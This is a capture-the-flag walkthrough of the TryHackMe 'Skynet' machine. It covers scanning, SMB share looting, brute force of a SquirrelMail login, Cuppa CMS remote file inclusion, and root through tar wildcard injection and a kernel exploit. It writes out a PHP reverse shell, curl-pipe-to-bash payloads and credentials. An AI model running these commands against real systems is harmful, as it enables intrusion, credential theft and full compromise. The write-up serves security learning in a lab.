

#tryhackme #linux #tar-wildcard #autorecon #gobuster #crackmapexec #nmap #smbget #hydra #Brute-Force-Attack #cms #impacket #smbclient #searchsploit #crontab #linpeas #kernel-exploit 

## Recon
---
### Autorecon

```bash
sudo $(which autorecon) -vv -m 5 --dirbuster.threads 100 --reports markdown --dirbuster.tool gobuster 10.10.67.8
```

> [!NOTE] AutoRecon never finishes, it just hangs or says there is 1 task remaining over and over, why?
> It is entirely possible that one command (usually a full TCP Nmap scan or directory busting scan) takes longer than anticipated. This is usually out of AutoRecon's control, however you can use tools like htop/top/ps to find the scan command and then manually kill it using regular Linux commands like kill/pkill. AutoRecon will notice the process has been killed and will move onto the next scan or exit completely.

### Nmap

```bash
# Nmap 7.94 scan initiated Mon Jun 19 09:39:06 2023 as: nmap -sVC -p- -T4 -Pn -vv -oA skynet 10.10.67.8
Nmap scan report for 10.10.67.8
Host is up, received user-set (0.28s latency).
Scanned at 2023-06-19 09:39:08 EDT for 643s
Not shown: 65529 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKeTyrvAfbRB4onlz23fmgH5DPnSz07voOYaVMKPx5bT62zn7eZzecIVvfp5LBCetcOyiw2Yhocs0oO1/RZSqXlwTVzRNKzznG4WTPtkvD7ws/4tv2cAGy1lzRy9b+361HHIXT8GNteq2mU+boz3kdZiiZHIml4oSGhI+/+IuSMl5clB5/FzKJ+mfmu4MRS8iahHlTciFlCpmQvoQFTA5s2PyzDHM6XjDYH1N3Euhk4xz44Xpo1hUZnu+P975/GadIkhr/Y0N5Sev+Kgso241/v0GQ2lKrYz3RPgmNv93AIQ4t3i3P6qDnta/06bfYDSEEJXaON+A9SCpk2YSrj4A7
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI0UWS0x1ZsOGo510tgfVbNVhdE5LkzA4SWDW/5UjDumVQ7zIyWdstNAm+lkpZ23Iz3t8joaLcfs8nYCpMGa/xk=
|   256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICHVctcvlD2YZ4mLdmUlSwY8Ro0hCDMKGqZ2+DuI0KFQ
80/tcp  open  http?       syn-ack ttl 63
|_http-title: Skynet
| http-methods:
|_  Supported Methods: OPTIONS
110/tcp open  pop3        syn-ack ttl 63 Dovecot pop3d
|_pop3-capabilities: TOP RESP-CODES SASL UIDL AUTH-RESP-CODE CAPA PIPELINING
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        syn-ack ttl 63 Dovecot imapd
|_imap-capabilities: post-login LITERAL+ capabilities have IDLE IMAP4rev1 SASL-IR ENABLE LOGINDISABLEDA0001 more listed Pre-login LOGIN-REFERRALS OK ID
445/tcp open             syn-ack ttl 63 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m04s, deviation: 2h53m12s, median: 3s
| nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SKYNET<00>           Flags: <unique><active>
|   SKYNET<03>           Flags: <unique><active>
|   SKYNET<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 21373/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 31444/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 60764/udp): CLEAN (Failed to receive data)
|   Check 4 (port 14792/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2023-06-19T08:48:20-05:00
| smb2-time:
|   date: 2023-06-19T13:48:20
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 19 09:49:51 2023 -- 1 IP address (1 host up) scanned in 645.69 seconds
```

### CME

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ cme smb 10.10.67.8 -u '' -p '' --shares
SMB         10.10.67.8      445    SKYNET           [*] Windows 6.1 (name:SKYNET) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.67.8      445    SKYNET           [+] \:
SMB         10.10.67.8      445    SKYNET           [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.10.67.8      445    SKYNET           [+] Enumerated shares
SMB         10.10.67.8      445    SKYNET           Share           Permissions     Remark
SMB         10.10.67.8      445    SKYNET           -----           -----------     ------
SMB         10.10.67.8      445    SKYNET           print$                          Printer Drivers
SMB         10.10.67.8      445    SKYNET           anonymous       READ            Skynet Anonymous Share
SMB         10.10.67.8      445    SKYNET           milesdyson                      Miles Dyson Personal Share
SMB         10.10.67.8      445    SKYNET           IPC$                            IPC Service (skynet server (Samba, Ubuntu))
```

## Enum

### 80

#### info


#### Dir

```bash
┌──(kali㉿kali)-[~/…/results/10.10.67.8/scans/tcp80]
└─$ cat tcp_80_http_gobuster_dirbuster.txt | grep -v 403
http://10.10.67.8:80/index.html           (Status: 200) [Size: 523]
http://10.10.67.8:80/squirrelmail         (Status: 200) [Size: 2912]
```

##### /squirrelmail


## Deploy and compromise the vulnerable machine!
---

### What is Miles password for his emails?

#### Enum SMB and get password from logs

```bash
┌──(kali㉿kali)-[~/…/skynet/results/10.10.67.8/loot]
└─$ smbget -R -a smb://10.10.67.8/anonymous
Using workgroup WORKGROUP, guest user
smb://10.10.67.8/anonymous/attention.txt
smb://10.10.67.8/anonymous/logs/log2.txt
smb://10.10.67.8/anonymous/logs/log1.txt
smb://10.10.67.8/anonymous/logs/log3.txt
Downloaded 634b in 10 seconds

┌──(kali㉿kali)-[~/…/results/10.10.67.8/loot/logs]
└─$ ls
log1.txt  log2.txt  log3.txt

┌──(kali㉿kali)-[~/…/skynet/results/10.10.67.8/loot]
└─$ cat attention.txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

┌──(kali㉿kali)-[~/…/skynet/results/10.10.67.8/loot]
└─$ cd logs

┌──(kali㉿kali)-[~/…/results/10.10.67.8/loot/logs]
└─$ ls
log1.txt  log2.txt  log3.txt

┌──(kali㉿kali)-[~/…/results/10.10.67.8/loot/logs]
└─$ cat log1.txt
cyborg007haloterminator
terminator22596
terminator219
...
```

Seems like passwords

#### Bruteforce squirrelmail web service

Enumerate users from smb

```bash
┌──(kali㉿kali)-[~/…/results/10.10.67.8/scans/tcp445]
└─$ cme smb 10.10.131.237 --users
SMB         10.10.131.237   445    SKYNET           [*] Windows 6.1 (name:SKYNET) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.131.237   445    SKYNET           [-] Error enumerating domain users using dc ip 10.10.131.237: socket connection error while opening: [Errno 111] Connection refused
SMB         10.10.131.237   445    SKYNET           [*] Trying with SAMRPC protocol
SMB         10.10.131.237   445    SKYNET           [+] Enumerated domain user(s)
SMB         10.10.131.237   445    SKYNET           \milesdyson
SMB         10.10.131.237   445    SKYNET           [+] Enumerated domain user(s)
SMB         10.10.131.237   445    SKYNET           \milesdyson
```

Tried bruteforce smb and ssh, both failed

- `cme smb 10.10.67.8 -u milesdyson -p log1.txt`
- `hydra -l milesdyson -P log1.txt ssh://10.10.67.8`

Brute force `/squirrelmail` in http

```bash
hydra -l "milesdyson" -P results/10.10.67.8/loot/logs/log1.txt -e nsr -s 80 -o "/home/kali/thm/skynet/results/10.10.67.8/scans/tcp80/tcp_80_http_form_hydra.txt" http-post-form://10.10.131.237/squirrelmail/src/redirect.php:"login_username=^USER^&secretkey=^PASS^":"Unknown user or password incorrect"
```


> Creds: `milesdyson`:`cyborg007haloterminator`

Login success


### What is the hidden directory?

#### Get SMB Password




#### Get password in txt from SMB share

Check shares

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ cme smb 10.10.131.237 -u milesdyson -p ')s{A&2Z=F^n_E.B`' --shares
SMB         10.10.131.237   445    SKYNET           [*] Windows 6.1 (name:SKYNET) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.131.237   445    SKYNET           [+] \milesdyson:)s{A&2Z=F^n_E.B`
SMB         10.10.131.237   445    SKYNET           [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.10.131.237   445    SKYNET           [+] Enumerated shares
SMB         10.10.131.237   445    SKYNET           Share           Permissions     Remark
SMB         10.10.131.237   445    SKYNET           -----           -----------     ------
SMB         10.10.131.237   445    SKYNET           print$          READ            Printer Drivers
SMB         10.10.131.237   445    SKYNET           anonymous       READ            Skynet Anonymous Share
SMB         10.10.131.237   445    SKYNET           milesdyson      READ            Miles Dyson Personal Share
SMB         10.10.131.237   445    SKYNET           IPC$                            IPC Service (skynet server (Samba, Ubuntu))
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ smbclient.py milesdyson:')s{A&2Z=F^n_E.B`'@10.10.131.237
Impacket v0.10.1.dev1+20230616.115447.d1f16d8 - Copyright 2022 Fortra

Type help for list of commands
# use milesdyson
ls
# ls
drw-rw-rw-          0  Tue Sep 17 05:05:47 2019 .
drw-rw-rw-          0  Tue Sep 17 23:51:02 2019 ..
-rw-rw-rw-    5743095  Tue Sep 17 05:05:14 2019 Improving Deep Neural Networks.pdf
-rw-rw-rw-   12927230  Tue Sep 17 05:05:14 2019 Natural Language Processing-Building Sequence Models.pdf
-rw-rw-rw-   19655446  Tue Sep 17 05:05:14 2019 Convolutional Neural Networks-CNN.pdf
drw-rw-rw-          0  Tue Sep 17 05:18:40 2019 notes
-rw-rw-rw-    4304586  Tue Sep 17 05:05:14 2019 Neural Networks and Deep Learning.pdf
-rw-rw-rw-    3531427  Tue Sep 17 05:05:14 2019 Structuring your Machine Learning Project.pdf
# cd notes
# ls
drw-rw-rw-          0  Tue Sep 17 05:18:40 2019 .
drw-rw-rw-          0  Tue Sep 17 05:05:47 2019 ..
-rw-rw-rw-      65601  Tue Sep 17 05:01:29 2019 3.01 Search.md
-rw-rw-rw-       5683  Tue Sep 17 05:01:29 2019 4.01 Agent-Based Models.md
-rw-rw-rw-       7949  Tue Sep 17 05:01:29 2019 2.08 In Practice.md
-rw-rw-rw-       3114  Tue Sep 17 05:01:29 2019 0.00 Cover.md
-rw-rw-rw-      70314  Tue Sep 17 05:01:29 2019 1.02 Linear Algebra.md
-rw-rw-rw-        117  Tue Sep 17 05:18:39 2019 important.txt
-rw-rw-rw-       9221  Tue Sep 17 05:01:29 2019 6.01 pandas.md
-rw-rw-rw-         33  Tue Sep 17 05:01:29 2019 3.00 Artificial Intelligence.md
...
# get important.txt
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ cat important.txt

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```


### What is the vulnerability called when you can include a remote file for malicious purposes?

> remote file inclusion

### What is the user flag?

Discover directories

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ gobuster dir -u http://10.10.131.237/45kra24zxs28v3yd/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -e -r -t 100

http://10.10.131.237/45kra24zxs28v3yd/administrator        (Status: 200) [Size: 4945]
```


- Tried login with 2 credentials gathered previously

- Tried fuzzing weak usernames and passwords
	- `ffuf -c -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt -w /usr/share/seclists/Passwords/darkweb2017-top100.txt:FUZZ2 -request login.req -request-proto http -fs 4945 -v`

Try exploits

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ searchsploit cuppa cms
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                                                                                                | php/webapps/25971.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

```bash
searchsploit -x 25971
```


Visit the URL to make sure it's likely vulnerable


Set up revshell 

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ mkdir www && cd www

┌──(kali㉿kali)-[~/thm/skynet/www]
└─$ vi shell.php

┌──(kali㉿kali)-[~/thm/skynet/www]
└─$ cat shell.php
<?php system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.11.19.145/1111 0>&1'"); ?>

┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ python3 -m http.server 80
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ rlwrap -r -f . nc -nlvp 1111
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ curl http://10.10.131.237/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.19.145/shell.php
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.131.237] 45406
bash: cannot set terminal process group (1318): Inappropriate ioctl for device
bash: no job control in this shell
www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$
```

Stabilize shell

```bash
www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$ python3 -c "import pty;pty.spawn('/bin/bash')"
<strator/alerts$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(kali㉿kali)-[~/thm/skynet]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$ 
```

Enum users

```bash
<ml/45kra24zxs28v3yd/administrator/alerts$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
```

User flag

```bash
<ml/45kra24zxs28v3yd/administrator/alerts$ cd /home/milesdyson
www-data@skynet:/home/milesdyson$ ls
backups  mail  share  user.txt
www-data@skynet:/home/milesdyson$ cat user.txt
7ce5c2109a40f958099283600a9ae807
```

### What is the root flag?

No vulnerable setuid binary found

```bash
find / -type f -perm /u=s+ -ls 2>/dev/null
```

List files in the user dir

```bash
www-data@skynet:/home/milesdyson$ find .
.
./.bash_history
./.bash_logout
./backups
./backups/backup.sh
./backups/backup.tgz
./share
./share/Improving Deep Neural Networks.pdf
...

www-data@skynet:/home/milesdyson$ cat ./backups/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Guess it will be run by crontab

```bash
www-data@skynet:/home/milesdyson$ cat /etc/crontab|grep backup
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
```

Ok, it will be run as root

It's not writeable

```bash
www-data@skynet:/home/milesdyson$ ls -l ./backups/backup.sh
-rwxr-xr-x 1 root root 74 Sep 17  2019 ./backups/backup.sh
```

#### Privilege escalation using tar

Google  `linux tar privilege escalation`

- [Privilege Escalation Using Wildcard Injection | by Medusa](https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c)
- [Tar Wildcard Injection PrivEsc - Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/tar-wildcard-injection-privesc/)

 > [Linux Privilege Escalation: Wildcards with tar | by Ben Folland](https://medium.com/@cybenfolland/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)

Now create a payload for privilege escalation.

```sh
cd /var/www/html
echo -e '#!/bin/bash\ncurl 10.11.19.145|bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

It will be executed by `./backups/backup.sh` as :

```bash
tar cf /home/milesdyson/backups/backup.tgz --checkpoint=1 --checkpoint=action=exec=sh shell.sh * 
```

Prepare reverse shell

```bash
┌──(kali㉿kali)-[~/thm/skynet/www]
└─$ ln -s ~/scripts/www-revshell/index.html

┌──(kali㉿kali)-[~/thm/skynet/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.131.237] 45550
bash: cannot set terminal process group (17857): Inappropriate ioctl for device
bash: no job control in this shell
root@skynet:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
root@skynet:/var/www/html# cat /root/root.txt
cat /root/root.txt
3f0372db24753accc7179a282cd6a949
root@skynet:/var/www/html#
```

#### Privilege escalation using kernel exploit (cve-2017-16995)

Result from Linpeas's linux exploit suggester 2

```bash
www-data@skynet:/var/www/html$ curl 10.11.19.145/linpeas.sh|bash
```


Download the exploit 

> https://www.exploit-db.com/exploits/45010

```bash
wget https://www.exploit-db.com/download/45010 -O cve.c
```

```bash
www-data@skynet:/var/www/html$ wget 10.11.19.145/cve.c -O cve.c
--2023-06-19 10:57:49--  http://10.11.19.145/cve.c
Connecting to 10.11.19.145:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 11826 (12K) [text/x-csrc]
Saving to: 'cve.c'

cve.c               100%[===================>]  11.55K  --.-KB/s    in 0.003s

2023-06-19 10:57:49 (3.52 MB/s) - 'cve.c' saved [11826/11826]

www-data@skynet:/var/www/html$ gcc cve.c -o cve
www-data@skynet:/var/www/html$ ./cve
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff95a47af30000
[*] Leaking sock struct from ffff95a4462fc400
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff95a4521c8840
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff95a4521c8840
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
3f0372db24753accc7179a282cd6a949
```